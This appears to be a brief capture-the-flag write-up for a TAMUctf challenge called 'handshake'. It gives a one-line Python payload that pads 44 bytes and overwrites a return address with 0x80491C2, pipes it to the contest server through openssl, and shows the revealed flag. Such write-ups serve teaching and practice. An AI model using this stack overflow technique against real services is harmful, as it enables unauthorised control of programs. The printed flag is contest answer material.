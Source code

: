 ```

Overwrite return address with ```0x80491C2```

```
$  python -c "print 'a'*44+'\xc2\x91\x04\x08' " |  openssl s_client -connect tamuctf.com:443 -servername handshake -quiet

depth=0 CN = hulkcybr1
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = hulkcybr1
verify return:1
Whats the secret handshake?
Correct! gigem{r37urn_c0n7r0l1337}
```

### Flag

> gigem{r37urn_c0n7r0l1337}



*(to be continued)*

